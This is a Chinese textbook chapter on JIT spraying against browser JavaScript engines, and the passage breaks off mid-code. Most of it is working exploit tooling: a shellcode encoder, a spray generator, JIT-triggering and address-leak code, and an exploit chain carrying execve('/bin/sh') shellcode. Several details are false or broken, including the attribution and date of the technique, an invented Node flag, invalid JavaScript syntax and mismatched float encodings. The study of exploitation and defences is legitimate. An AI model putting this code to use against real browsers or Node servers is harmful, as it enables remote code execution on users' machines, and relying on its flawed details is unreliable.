



## 31.6 JIT喷射技术

```mermaid
graph TD
    A["🔥 JIT喷射技术"] --> B["JIT编译基础"]
    A --> C["JIT喷射原理"]
    A --> D["主流引擎分析"]
    A --> E["实现与编码"]
    A --> F["防御与对抗"]
    A --> G["实战案例"]

    B --> B1["解释执行 vs 即时编译"]
    B --> B2["编译管线：Ignition→TurboFan"]
    B --> B3["常量嵌入机制"]

    C --> C1["常量编码为机器码"]
    C --> C2["内存布局与地址预测"]
    C --> C3["绕过DEP/NX的本质"]

    D --> D1["V8 Chrome/Node.js"]
    D --> D2["SpiderMonkey Firefox"]
    D --> D3["JavaScriptCore Safari"]

    E --> E1["NOP Sled构造"]
    E --> E2["Shellcode编码"]
    E --> E3["浮点数编码"]
    E --> E4["常量拼接"]

    F --> F1["W^X保护"]
    F --> F2["常量池分离"]
    F --> F3["对抗技术演进"]

    G --> G1["CVE案例分析"]
    G --> G2["现代攻击链"]

    A --> H["🎯 任意代码执行"]

    style A fill:#9C27B0,stroke:#333,color:#fff
    style H fill:#4CAF50,stroke:#333,color:#fff
```



### 31.6.1 JIT喷射概述

JIT喷射（JIT Spray）是由安全研究员 Alex Sotirov 于2009年首次系统提出的一种漏洞利用技术，其核心思想是**利用JavaScript引擎的JIT（Just-In-Time）编译器，将攻击者控制的常量数据编译为可执行的机器码**。与传统堆喷射（Heap Spray）在数据段布置shellcode不同，JIT喷射直接在代码段生成包含攻击载荷的指令——由于JIT生成的代码页天然具备可执行（R-X）权限，这项技术从根本上绕过了DEP/NX保护。

#### JIT喷射与传统堆喷射的本质区别

| 对比维度 | 传统堆喷射 | JIT喷射 |
|---------|-----------|---------|
| 数据位置 | 堆（数据段，RW-） | JIT代码段（RX或RWX） |
| DEP绕过 | 需要额外机制（ROP等） | 天然绕过（代码已在可执行页） |
| 布局控制 | 概率性（大量分配淹没） | 可精确预测（JIT代码基址+偏移） |
| 代码形式 | 原始字节（shellcode） | 编译后的机器码片段（gadget） |
| 利用链复杂度 | 需要配合ROP/ret2libc | 单独或配合类型混淆使用 |
| 适用场景 | 通用堆溢出、UAF | 浏览器JS引擎漏洞、类型混淆 |
| 成功率 | 概率性（~63-86%） | 较高（常量在JIT代码中确定性出现） |

#### 在漏洞利用链中的位置

JIT喷射通常出现在以下利用场景中：

1. **浏览器漏洞利用链**：通过类型混淆漏洞（type confusion）获取读写原语后，利用JIT喷射在可执行内存中布置gadget，再劫持控制流跳转到JIT代码段
2. **Node.js服务端利用**：针对服务端JS引擎的内存破坏漏洞，通过JIT喷射绕过服务器环境的严格DEP策略
3. **混合利用链**：与UAF、堆溢出等漏洞配合，JIT喷射负责提供可执行代码，漏洞本身负责劫持控制流

### 31.6.2 JIT编译基础

理解JIT喷射的前提是深入理解JIT编译器的工作原理。现代JavaScript引擎采用多层编译架构，在解释执行和优化编译之间动态切换。

#### JIT编译器的分层架构



这个分层架构的核心设计动机是**性能**——大多数JS代码只执行一次（页面加载），不需要编译；少数热点代码需要被反复优化。但从安全角度看，优化编译器的常量嵌入行为创造了可被利用的条件。

#### 常量嵌入机制

当JIT编译器将JavaScript编译为机器码时，字面量常量（literal constants）会被直接嵌入到生成的指令流中。以V8的TurboFan为例：

```javascript
// JavaScript源码
function add_constants(x) {
    return x + 0x41414141;
}

// TurboFan生成的x86-64机器码（简化表示）
// add_constants:
//   mov eax, [rdi+0x1f]      ; 加载x
//   add eax, 0x41414141       ; 常量0x41414141嵌入为立即数
//   ret
```

关键观察：**常量 `0x41414141` 不是存储在单独的数据段中，而是作为立即数直接编码在 `add` 指令的操作码后面**。如果攻击者能控制这个常量的值，并且能在内存中找到这个地址，CPU就会将其解释为指令执行。

#### 为什么XOR操作是JIT喷射的核心

纯常量嵌入还不够——一个独立的常量值（如 `0x41414141`）在被当作指令解释时可能产生意外行为。JIT喷射的精髓在于利用**XOR操作码（0x31 / 0x33）和嵌入常量的组合**来构造可控的指令序列：

```text
JavaScript: var x = 0x90909090 ^ 0xCCCCCCCC;

JIT编译后的机器码:
  mov eax, 0xCCCCCCCC       ; B8 CC CC CC CC
  xor eax, 0x90909090       ; 35 90 90 90 90

在内存中的字节序列:
  B8 CC CC CC CC 35 90 90 90 90 ...
  ↑常量嵌入↑    ↑XOR↑  ↑常量嵌入↑
```

当CPU从不同偏移处开始执行时，相同的字节序列会被解释为完全不同的指令：

```text
偏移0: B8 CC CC CC CC 35 90 90 90 90
       mov eax, 0xCCCCCCCC    ← 正常执行

偏移2: CC CC CC 35 90 90 90 90 ...
       int3                    ← 触发断点（单字节）
       int3
       int3
       xor eax, 0x90909090    ← 但如果继续执行...

偏移5: 35 90 90 90 90 ...
       xor eax, 0x90909090    ← 有效指令，结果=0x90909090

偏移6: 90 90 90 90 ...
       nop                     ← NOP sled！
       nop
       nop
       nop
```

这揭示了JIT喷射的本质：**通过大量重复的XOR+常量模式，在内存中创造出密集的、从多个偏移处均可执行的gadget网格**。

### 31.6.3 主流JIT引擎分析

不同JavaScript引擎的JIT实现差异直接影响JIT喷射的具体方法和效果。

#### V8引擎（Chrome / Node.js）

V8是目前使用最广泛的JS引擎，其编译管线经历了多次重大变革：

| 编译层级 | 组件名称 | 作用 | 代码质量 |
|---------|---------|------|---------|
| L0 | Ignition | 字节码解释器 | 无机器码 |
| L1 | Sparkplug（2021-）| 非优化基线编译器 | 简单直译 |
| L2 | Maglev（2022-）| 中间层优化编译器 | 中等优化 |
| L3 | TurboFan | 深度优化编译器 | 高度优化 |

**V8的JIT喷射特征**：

- **常量嵌入方式**：TurboFan将JS字面量直接编码为x86-64立即数。例如 `0x41414141` 编码为 `B8 41 41 41 41`（`mov eax, imm32`）
- **代码页布局**：JIT生成的代码存储在连续的可执行内存页中，基址可通过信息泄露或推测获取
- **W^X策略**：V8使用 `mprotect` 在写入和执行之间切换代码页权限。Sparkplug编译时不标记为可执行，只有TurboFan输出的优化代码才获得执行权限
- **常量池分离趋势**：现代V8版本开始将大常量移到代码段外的只读数据区，增加了喷射难度

```javascript
// V8 TurboFan常量嵌入示例
// 当函数被反复调用触发优化编译后，以下代码的机器码布局为：
function v8_spray() {
    var a = 0x90909090;
    var b = 0xCCCCCCCC;
    var c = 0x90909090;
    // TurboFan会生成类似：
    // mov rax, 0xCCCCCCCC    ; B8 CC CC CC CC
    // xor rax, 0x90909090    ; 48 35 90 90 90 90
    // mov rax, 0xCCCCCCCC    ; B8 CC CC CC CC
    // 每个常量都在代码流中占据4-8字节的立即数位置
    return a ^ b ^ c;
}

// 触发JIT编译：反复调用使函数成为热点
for (var i = 0; i < 100000; i++) {
    v8_spray();
}
// 此时 v8_spray 的机器码位于某个可执行页上
// 攻击者通过信息泄露获取该页地址
// 然后构造偏移跳转到常量嵌入点
```

#### SpiderMonkey引擎（Firefox）

SpiderMonkey是Mozilla开发的JS引擎，其JIT编译器架构与V8有显著差异：

| 编译层级 | 组件名称 | 特点 |
|---------|---------|------|
| L0 | 解释器 | 基于字节码的逐条执行 |
| L1 | Baseline JIT | 快速编译，内联缓存 |
| L2 | IonMonkey | 深度优化，SSA形式 |
| L3 | WarpMonkey（2019-）| 替代IonMonkey的改进优化器 |

**SpiderMonkey的JIT喷射特征**：

- **常量加载方式**：IonMonkey倾向于使用 `mov` 指令加载常量到寄存器，常量值作为立即数嵌入。但某些优化会将常量放入GC-managed的常量池中
- **代码页权限**：Firefox在Linux上使用 `mprotect` 实现W^X切换，在Windows上使用 `VirtualProtect`
- **常量池策略**：SpiderMonkey在某些情况下会将大常量（>32位）放入内存池而非直接嵌入，这对JIT喷射构成挑战

```javascript
// SpiderMonkey IonMonkey常量嵌入
function spidermonkey_spray() {
    var shellcode_words = [
        0x90909090, 0x90909090, 0xCCCCCCCC, 0xDDDDDDDD,
        0x90909090, 0x90909090, 0x90909090, 0x90909090
        // ... 更多常量
    ];
    // IonMonkey编译后，这些常量会被加载到寄存器或栈上
    // 每个常量在机器码中占据 4-8 字节的立即数
    var result = 0;
    for (var i = 0; i < shellcode_words.length; i++) {
        result ^= shellcode_words[i];
    }
    return result;
}

// 触发优化编译
for (var i = 0; i < 100000; i++) {
    spidermonkey_spray();
}
```

#### JavaScriptCore引擎（Safari / WebKit）

JavaScriptCore（JSC）是Apple Safari浏览器使用的JS引擎，其编译管线最为复杂：

| 编译层级 | 组件名称 | 特点 |
|---------|---------|------|
| L0 | LLInt | 低级解释器 |
| L1 | Baseline JIT | 快速编译 |
| L2 | DFG JIT | Data Flow Graph优化 |
| L3 | FTL JIT | 基于LLVM的深度优化 |

**JavaScriptCore的JIT喷射特征**：

- **多级编译**：DFG和FTL的常量嵌入行为不同。FTL编译器可能使用更多寄存器加载策略而非直接嵌入
- **Gigacage**：JSC引入了Gigacage内存隔离机制，将JIT代码、堆内存等分配到不同的大块内存区域，增加了地址预测的难度
- **ARM64架构差异**：在Apple Silicon上，ARM64的立即数编码方式（12位立即数+移位）与x86不同，JIT喷射需要适配ARM64的指令编码

```javascript
// JavaScriptCore FTL JIT常量嵌入（ARM64适配）
// ARM64上常量嵌入方式：
//   movz x0, #0x9090         ; 32位立即数加载（低16位）
//   movk x0, #0x9090, LSL#16 ; 16位高半部分
//   与x86的单条mov eax, imm32不同
function jsc_spray() {
    var a = 0x90909090;
    var b = 0xCCCCCCCC;
    // 在ARM64上，JSC可能生成：
    // movz w0, #0xCCCC         ; 加载低16位
    // movk w0, #0xCCCC, LSL#16 ; 填充高16位
    // eor w0, w0, #0x90909090  ; XOR（如果立即数在编码范围内）
    // 这意味着常量的字节序列在ARM64上更碎片化
    return a ^ b;
}

for (var i = 0; i < 100000; i++) {
    jsc_spray();
}
```

### 31.6.4 JIT喷射原理深度解析

#### 从JS常量到可执行指令的转化

JIT喷射的核心安全问题在于：**JIT编译器将攻击者控制的数值作为机器码指令的立即数嵌入，而这些立即数在从不同偏移处被CPU解码时，会形成完全不同的有效指令**。

下面详细分析一个完整的JIT喷射gadget的构造过程：

```javascript
第一步：构造JavaScript代码
─────────────────────────────
var nop_sled = 0x90909090;
var xor_key  = 0xCCCCCCCC;
var result   = nop_sled ^ xor_key;

第二步：TurboFan生成的机器码
─────────────────────────────
地址偏移    字节序列              指令（正常解读）
+0x00:    B8 CC CC CC CC         mov eax, 0xCCCCCCCC
+0x05:    35 90 90 90 90         xor eax, 0x90909090

第三步：从不同偏移处解读
─────────────────────────────
+0x00: mov eax, 0xCCCCCCCC       ; 正常入口
+0x01: CC CC CC 35 90            ; int3; int3; int3; xor eax, imm
+0x02: CC CC 35 90 90            ; int3; int3; xor eax, imm16...
+0x03: CC 35 90 90 90            ; int3; xor eax, 0x909090
+0x04: 35 90 90 90 90            ; xor eax, 0x90909090  ← 关键gadget!
+0x05: 90 90 90 90 ...           ; nop; nop; nop; nop  ← NOP sled!
```

**关键洞察**：偏移+0x04处的 `xor eax, 0x90909090` 会将EAX设置为 `0x90909090`（前提是EAX为0），而从+0x05开始就是连续的NOP sled。如果攻击者能在内存中大量重复这种模式，那么无论跳转到gadget网格中的哪个位置，CPU最终都会滑行到shellcode处。

#### NOP sled的密度分析

传统堆喷射的NOP sled密度较低——每个喷射块中NOP只占一部分，shellcode紧跟其后。而JIT喷射中，NOP sled的密度极高：

```text
传统堆喷射的内存布局：
┌─────────────────────────────────────────┐
│ NOP NOP NOP NOP ... │ Shellcode │ NOP...│
│    8KB NOP sled      │  200B    │ 填充  │
└─────────────────────────────────────────┘
NOP密度 ≈ 8KB / 2MB = 0.39%

JIT喷射的内存布局（重复XOR+常量模式）：
┌─────────────────────────────────────────┐
│ mov x,CC  xor x,90  mov x,CC  xor x,90 │
│  ↑常量CC↑  ↑NOP↑     ↑常量CC↑  ↑NOP↑    │
│ 每8-10字节中就有4字节可被解读为NOP       │
└─────────────────────────────────────────┘
NOP密度 ≈ 40-50%（从任意偏移解读）
```

这种高密度意味着：**跳转到JIT代码段的任意位置，都有极大概率落在有效的NOP sled或等效gadget上**。这就是JIT喷射成功率远高于传统堆喷射的根本原因。

#### 地址预测与控制流劫持

JIT喷射的最后一步是将控制流引导到JIT代码段中的gadget。这需要解决两个问题：

**问题1：获取JIT代码段的基址**

常见的信息泄露途径：
- **JIT代码指针泄露**：某些漏洞（如类型混淆、越界读）可以直接读取JIT代码段的地址
- **定时侧信道**：通过测量函数调用时间推断代码是否在指令缓存中（进而推断地址范围）
- **内存布局推测**：利用JIT代码页的分配模式进行推测

**问题2：控制流劫持**

一旦知道JIT代码段的基址，攻击者需要通过漏洞将执行流引导到该地址：
- **类型混淆**：伪造函数指针指向JIT代码段
- **虚表劫持**：覆盖C++对象的虚表指针
- **UAF**：释放对象后用JIT喷射数据填充，通过悬垂指针触发

```text
完整攻击流程：
1. 在页面中执行JIT喷射代码 → JIT代码段充满gadget
2. 利用漏洞（如类型混淆）泄露JIT代码段基址
3. 构造gadget地址 = JIT基址 + 计算好的偏移
4. 通过漏洞（如虚表劫持）将控制流重定向到gadget地址
5. CPU开始在JIT代码段执行攻击者构造的指令序列
6. 最终执行shellcode，完成代码执行
```

### 31.6.5 JIT喷射实现详解

#### 完整实现流程



#### 步骤1-4：喷射函数构造与编译

```javascript
// ============================================
// JIT喷射 - V8引擎完整实现
// ============================================

// --- 步骤1: Shellcode编码 ---
// 目标：将shellcode的每个字节编码为JIT可嵌入的常量
//
// 约束条件：
// - 每个常量必须是32位无符号整数
// - 不能包含0x00（某些引擎会截断null字节）
// - 编码后的常量在被当作指令解释时不能产生副作用
//
// 编码策略：使用 XOR 编码
//   encoded = shellcode_byte ^ filler_byte
//   JIT编译后：mov eax, filler; xor eax, encoded
//   从偏移解读：xor eax, encoded → EAX = encoded ^ filler = shellcode_byte

function encodeShellcodeToConstants(shellcode) {
    var constants = [];
    var filler = 0x90; // NOP作为填充

    // shellcode是Uint8Array
    for (var i = 0; i < shellcode.length; i += 4) {
        var chunk = 0;
        // 每4个字节打包为一个32位常量
        for (var j = 0; j < 4 && (i + j) < shellcode.length; j++) {
            chunk |= (shellcode[i + j] & 0xFF) << (j * 8);
        }
        // XOR编码，使常量不包含null字节
        var encoded = chunk ^ (filler | (filler << 8) | (filler << 16) | (filler << 24));
        // 检查编码后是否包含null字节
        if ((encoded & 0xFF) === 0 || ((encoded >> 8) & 0xFF) === 0 ||
            ((encoded >> 16) & 0xFF) === 0 || ((encoded >> 24) & 0xFF) === 0) {
            // 如果编码后有null字节，使用不同的filler
            encoded = chunk ^ 0x41414141; // 使用 'AAAA' 作为备选填充
        }
        constants.push({
            encoded: encoded >>> 0,  // 确保无符号
            filler: filler,
            original: chunk
        });
    }
    return constants;
}

// --- 步骤2-3: 构造喷射函数 ---
// 大量重复嵌入编码后的常量，使JIT编译器生成密集的gadget网格
function createSprayFunction(constants) {
    // 生成一个包含大量XOR+常量操作的函数
    // 该函数在被JIT编译后，机器码中将包含密集的常量嵌入
    var body = "function __spray__() {\n";
    body += "    var acc = 0;\n";

    // 重复多次以增加gadget密度
    var repetitions = 1000; // 每个常量重复1000次
    for (var rep = 0; rep < repetitions; rep++) {
        for (var i = 0; i < constants.length; i++) {
            var c = constants[i];
            // acc = acc ^ encoded_value
            // JIT编译后生成：xor eax, imm32
            // 从偏移+1解读：int3; ...; xor eax, shellcode_part
            body += "    acc = acc ^ " + c.encoded + ";\n";
        }
    }

    body += "    return acc;\n";
    body += "}\n";
    return body;
}

// --- 步骤4: 触发JIT编译 ---
function triggerJIT(func) {
    // 方案A：直接多次调用（触发热点检测）
    for (var i = 0; i < 100000; i++) {
        func();
    }

    // 方案B：使用 --jit 编译标志（V8特定）
    // 在命令行中使用：node --jit喷射.js
    // 或在代码中使用 %OptimizeFunctionOnNextCall(func)（仅调试版V8）
}

// --- 主流程 ---
function jitSprayMain(shellcodeBytes) {
    // 1. 编码shellcode
    var constants = encodeShellcodeToConstants(shellcodeBytes);

    // 2. 构造喷射函数
    var sprayFuncCode = createSprayFunction(constants);

    // 3. 动态创建函数（使V8在新上下文中编译它）
    var sprayFunc = new Function('return ' + sprayFuncCode)();

    // 4. 触发JIT编译
    triggerJIT(sprayFunc);

    // 5. 此时JIT代码段中已包含大量gadget
    // 后续需要通过漏洞泄露JIT代码段地址并劫持控制流
    return sprayFunc;
}
```

#### 步骤5-7：地址泄露与控制流劫持

```javascript
// ============================================
// 地址泄露与控制流劫持（概念性代码）
// 假设已通过漏洞获得任意读原语
// ============================================

// 假设存在一个信息泄露漏洞，可以读取任意地址的值
function leakJITCodeBase(arbitraryRead) {
    // 策略1：读取JIT代码指针
    // V8中，编译后的函数对象包含指向JIT代码的指针
    // 偏移量因V8版本而异（通常在函数对象的某个字段中）
    var funcObjAddr = /* 通过漏洞获取的函数对象地址 */;
    var jitCodePtr = arbitraryRead(funcObjAddr + JIT_CODE_OFFSET);

    // JIT代码指针的低12位是页内偏移（固定）
    // 高位就是代码段基址
    var jitBase = jitCodePtr & ~0xFFFL; // 页对齐
    console.log("[+] JIT code base: 0x" + jitBase.toString(16));
    return jitBase;
}

// 策略2：通过定时侧信道推测
function leakViaTiming(arbitraryRead) {
    // JIT代码页在执行后会被加载到CPU的指令缓存中
    // 通过测量从特定地址读取的时间，可以推断该地址是否在指令缓存中
    // 进而推断JIT代码段的地址范围

    var candidates = [];
    // 扫描可能的JIT代码地址范围
    for (var addr = 0x10000000; addr < 0x7FFFFFFF; addr += 0x1000) {
        var start = performance.now();
        // 尝试执行该地址（会触发异常但可以测量时间）
        try { arbitraryRead(addr); } catch(e) {}
        var elapsed = performance.now() - start;

        if (elapsed < 0.001) { // 快速响应意味着在缓存中
            candidates.push(addr);
        }
    }
    return candidates;
}

// 劫持控制流到JIT代码段中的gadget
function hijackToJITGadget(jitBase, gadgetOffset) {
    // gadget地址 = JIT基址 + 计算好的偏移
    var gadgetAddr = jitBase + gadgetOffset;

    // 通过漏洞（如虚表劫持）将控制流重定向
    // 例如：覆盖对象的函数指针
    // fakeObject.vtable = gadgetAddr;

    // CPU开始从gadgetAddr执行
    // 由于JIT代码段是密集的XOR+常量模式
    // 无论从gadgetAddr的哪个字节开始，CPU都会滑行到目标代码
}
```

### 31.6.6 常量编码技术

常量编码是JIT喷射成功的关键。编码必须同时满足两个矛盾的要求：（1）在JavaScript中是合法的数值；（2）在机器码中被解读为有用的指令序列。

#### NOP Sled构造方法

```javascript
目标：在JIT代码段中制造密集的NOP区域

方法1：直接常量嵌入
─────────────────
JavaScript: var x = 0x90909090;
机器码: mov eax, 0x90909090
字节流: B8 90 90 90 90
从+1解读: 90 90 90 90 → nop; nop; nop; nop (4字节NOP)
从+2解读: 90 90 90 ... → nop; nop; nop

方法2：XOR构造
─────────────────
JavaScript: var x = 0x90909090 ^ 0xCCCCCCCC;
机器码: mov eax, 0xCCCCCCCC; xor eax, 0x90909090
字节流: B8 CC CC CC CC 35 90 90 90 90
从+4解读: CC CC CC CC 35 → int3; int3; int3; int3; xor
从+5解读: 90 90 90 90 ... → nop; nop; nop; nop
NOP密度: 4/10 = 40%

方法3：浮点数编码（IEEE 754）
─────────────────
JavaScript: var x = 90577.54150390625; // IEEE 754编码为 0x90909090
机器码: movsd xmm0, [rip+xxx]; // 浮点常量加载
但更常用的是使用Math.abs/位操作将浮点数转为整数
var x = Math.abs(-1.1033782569501957e-38); // → 0x90909090的浮点表示
```

#### Shellcode编码策略

将shellcode字节编码为JIT可嵌入的常量，需要处理以下问题：

```javascript
// Shellcode编码器
class JITShellcodeEncoder {
    constructor() {
        this.fillerBytes = [0x90, 0x41, 0x42, 0x43]; // 备选填充字节
    }

    /**
     * 将shellcode编码为JIT喷射可用的32位常量数组
     * @param {Uint8Array} shellcode - 原始shellcode
     * @returns {Array<{encoded: number, strategy: string}>} 编码后的常量
     */
    encode(shellcode) {
        var result = [];
        for (var i = 0; i < shellcode.length; i += 4) {
            // 提取4字节打包为32位整数（小端序）
            var raw = 0;
            for (var j = 0; j < 4; j++) {
                var byteIdx = i + j;
                var b = byteIdx < shellcode.length ? shellcode[byteIdx] : 0x90;
                raw |= (b << (j * 8));
            }

            // 策略1：直接嵌入（检查null字节）
            if (this.hasNoNullBytes(raw)) {
                result.push({ encoded: raw >>> 0, strategy: 'direct' });
                continue;
            }

            // 策略2：XOR with filler
            var encoded = false;
            for (var f = 0; f < this.fillerBytes.length; f++) {
                var filler = this.fillerBytes[f];
                var mask = filler | (filler << 8) | (filler << 16) | (filler << 24);
                var xored = (raw ^ mask) >>> 0;
                if (this.hasNoNullBytes(xored)) {
                    result.push({ encoded: xored, filler: mask, strategy: 'xor' });
                    encoded = true;
                    break;
                }
            }

            if (!encoded) {
                // 策略3：拆分为字节级别的操作
                // 使用多条指令分别加载每个字节
                result.push({
                    encoded: raw >>> 0,
                    strategy: 'byte_level',
                    note: '需要特殊处理'
                });
            }
        }
        return result;
    }

    hasNoNullBytes(val) {
        return (val & 0xFF) !== 0 &&
               ((val >> 8) & 0xFF) !== 0 &&
               ((val >> 16) & 0xFF) !== 0 &&
               ((val >> 24) & 0xFF) !== 0;
    }
}
```

#### 浮点数编码（IEEE 754）

浮点数编码是绕过常量池分离防御的关键技术。当JIT引擎将大整数移到常量池时，浮点数可能仍然被直接嵌入：

```text
IEEE 754双精度浮点数格式（64位）：
┌──────┬──────────┬───────────────────────┐
│ 符号 │ 指数(11) │       尾数(52)         │
│ 1bit │          │                       │
└──────┴──────────┴───────────────────────┘

关键观察：某些浮点数的二进制表示恰好包含攻击者需要的字节序列

例如：要嵌入字节序列 0x41 0x42 0x43 0x44
对应的32位整数为 0x44434241
在IEEE 754单精度中：
  sign = 0
  exponent = 0x88 (136) → 136-127 = 9
  mantissa = 0x434241 → 约 12.21...
  对应的浮点值 ≈ 12.21875

JavaScript中：
  var x = 12.21875; // 编码为 IEEE 754: 0x41434241
  // JIT编译后，这个浮点常量作为机器码嵌入
```

```javascript
// 浮点数编码器
// 将字节序列编码为对应的浮点数常量
function floatEncode(bytes) {
    // 方法1：使用TypedArray进行位级转换
    var buf = new ArrayBuffer(4);
    var intView = new Uint32Array(buf);
    var floatView = new Float32Array(buf);

    // 将字节序列打包为32位整数（小端序）
    var intVal = 0;
    for (var i = 0; i < 4; i++) {
        intVal |= (bytes[i] & 0xFF) << (i * 8);
    }

    intView[0] = intVal;
    return floatView[0]; // 返回对应的浮点值
}

// 示例：将 NOP sled 的字节编码为浮点数
var nopFloat = floatEncode([0x90, 0x90, 0x90, 0x90]);
// nopFloat ≈ 1.27037e-38
// 在JIT代码段中，这个浮点常量的字节表示恰好是 0x90909090

// 使用方式：在喷射函数中使用浮点常量
// function spray() {
//     var x = 1.27037e-38;   // → 0x90909090
//     var y = <other float>; // → shellcode bytes
//     return x + y;
// }
```

### 31.6.7 防御机制

#### W^X保护（Write XOR Execute）

W^X是JIT喷射最根本的防御——不允许同一内存页同时具备写入和执行权限。

```text
传统JIT编译流程（无W^X）：
  分配代码页 → 写入机器码 → 直接执行
  页面权限: RWX（可读可写可执行）→ 完全可利用

现代W^X流程：
  分配代码页 → 写入机器码 → mprotect(RX) → 执行
  阶段1: RW-（可读写）  → 写入时无法执行
  阶段2: R-X（可读可执行）→ 执行时无法写入

JIT喷射绕过W^X的思路：
  写入和执行不需要同时发生！
  攻击者在W阶段写入gadget（通过JIT编译器），
  然后通过漏洞跳转到已标记为R-X的JIT代码段。
  W^X不能阻止这种分离式利用。
```

W^X无法完全防御JIT喷射的原因是：**JIT编译器是合法的代码生成者**——它的行为是正常的JS执行流程的一部分。攻击者只是利用了JIT编译器"将常量嵌入可执行代码"这一设计特性。

#### 常量池分离

常量池分离是一种更有效的防御策略：

```text
传统JIT（常量嵌入）：
┌──────────────────────────────┐
│ 代码段 (R-X)                  │
│ mov eax, [const_pool+0x10]   │ ← 代码中只有间接引用
│ xor eax, [const_pool+0x20]   │
└──────────────────────────────┘
┌──────────────────────────────┐
│ 常量池 (R--)                  │ ← 常量在只读数据区
│ 0x90909090                   │
│ 0xCCCCCCCC                   │
└──────────────────────────────┘
→ 攻击者无法在可执行页中布置常量gadget

V8 TurboFan的常量池策略：
- 小常量（≤32位）：直接嵌入指令流
- 大常量（>32位）：放入常量池，通过间接寻址访问
- 2020年后：TurboFan开始将更多常量移到池中
```

#### 地址随机化（ASLR + JIT代码随机化）

```text
标准ASLR：
- JIT代码段的基地址在每次进程启动时随机化
- 攻击者需要信息泄露才能获取基址

增强随机化（V8 Specific）：
- JIT代码页的内部布局随机化
- 函数在代码段内的偏移不再固定
- 增加了偏移计算的不确定性
```

#### 代码完整性检查

```text
控制流完整性（CFI）：
- 确保间接跳转只能到达合法的函数入口点
- 阻止跳转到JIT代码段中的任意偏移
- Intel CET（Shadow Stack）提供硬件级支持

JIT代码签名：
- 某些企业级方案要求JIT代码经过数字签名
- 阻止未经授权的代码生成
- 性能开销较高，实际部署有限
```

#### 各引擎防御策略对比

| 防御机制 | V8 (Chrome) | SpiderMonkey (Firefox) | JSC (Safari) |
|---------|-------------|----------------------|--------------|
| W^X | ✅ mprotect切换 | ✅ mprotect/VirtualProtect | ✅ mprotect |
| 常量池分离 | 部分（大常量） | 部分 | 部分 |
| JIT代码随机化 | ✅ | ✅ | ✅ Gigacage |
| CFI | ✅ (CFG + 目标CFI) | ✅ (W^X + asm.js验证) | ✅ (PAC on ARM64) |
| Shadow Stack | 硬件CET支持 | 硬件CET支持 | PAC（ARM64） |
| 内存隔离 | Oilpan GC | GC + Zone分离 | Gigacage |

### 31.6.8 对抗防御的演进

安全防御和攻击技术始终处于军备竞赛中。以下是针对上述防御机制的绕过技术。

#### 绕过常量池分离

```javascript
// 技术1：使用多种数据类型迫使常量以不同方式嵌入
function antiConstantPool() {
    // 小整数常量通常直接嵌入指令流
    // 但如果使用位运算组合，编译器可能无法优化为常量池引用

    var a = 0x9090;
    var b = 0x90900000;
    // TurboFan可能生成：
    //   mov eax, 0x9090          ; 直接嵌入
    //   mov ecx, 0x90900000      ; 直接嵌入
    //   or eax, ecx              ; 合并: eax = 0x90909090
    // 两个常量都直接嵌入在指令流中

    // 技术2：利用编译器的类型推断边界
    // V8对Smalled Int（Smi）和HeapNumber的处理不同
    var x1 = 0x7FFFFFFF; // Smi上限，直接嵌入
    var x2 = 0x80000000; // 超过Smi，可能进入常量池
    // 策略：使用多个Smi范围内的值通过运算组合出目标值

    // 技术3：利用JIT去优化和重编译的间隙
    // 当类型信息变化触发去优化时，重编译可能使用不同的常量嵌入策略
    return a | b;
}
```

#### 绕过JIT代码随机化

```text
绕过策略：

1. 利用相对偏移不变性
   虽然基址随机化，但函数内部的偏移关系相对固定
   方法：泄露任意一个JIT地址，通过固定偏移计算gadget位置

2. 利用信息泄露链
   多重泄露：先泄露堆地址 → 通过堆元数据找到JIT指针 → 计算JIT基址
   类型混淆：读取函数对象的JIT代码指针字段

3. 利用定时侧信道
   JIT代码页在执行后会被缓存到L1/L2缓存中
   通过Flush+Reload侧信道可以确定JIT代码的物理地址范围
```

#### 类型混淆+JIT喷射组合

这是现代浏览器漏洞利用中最常见的组合攻击：

```text
完整利用链：
1. [漏洞] 类型混淆：将ArrayBuffer的内部指针覆盖为攻击者控制的值
2. [原语] 任意读：通过混淆后的对象读取内存
3. [原语] 任意写：通过混淆后的对象写入内存
4. [准备] 执行JIT喷射代码，在JIT代码段布置gadget
5. [泄露] 通过任意读获取JIT代码段基址
6. [劫持] 通过任意写修改函数指针，指向JIT代码段中的gadget
7. [执行] 触发被修改的函数，控制流跳转到gadget，滑行到shellcode
```

```javascript
// 概念性代码：类型混淆+JIT喷射利用链
function exploitChain(typeConfusionVuln, arbitraryReadWrite) {
    // Step 1: JIT喷射布置gadget
    var shellcode = new Uint8Array([
        // execve("/bin/sh") shellcode
        0x48, 0x31, 0xf6, 0x56, 0x48, 0xbf, 0x2f, 0x62,
        0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54,
        0x5f, 0x6a, 0x3b, 0x58, 0x99, 0x0f, 0x05
    ]);

    // 执行喷射
    var sprayFunc = jitSprayMain(shellcode);
    console.log("[+] JIT spray completed");

    // Step 2: 泄露JIT代码段基址
    var jitBase = leakJITCodeBase(arbitraryReadWrite);
    console.log("[+] JIT base: 0x" + jitBase.toString(16));

    // Step 3: 计算gadget偏移
    // 通过分析JIT编译器输出的机器码布局
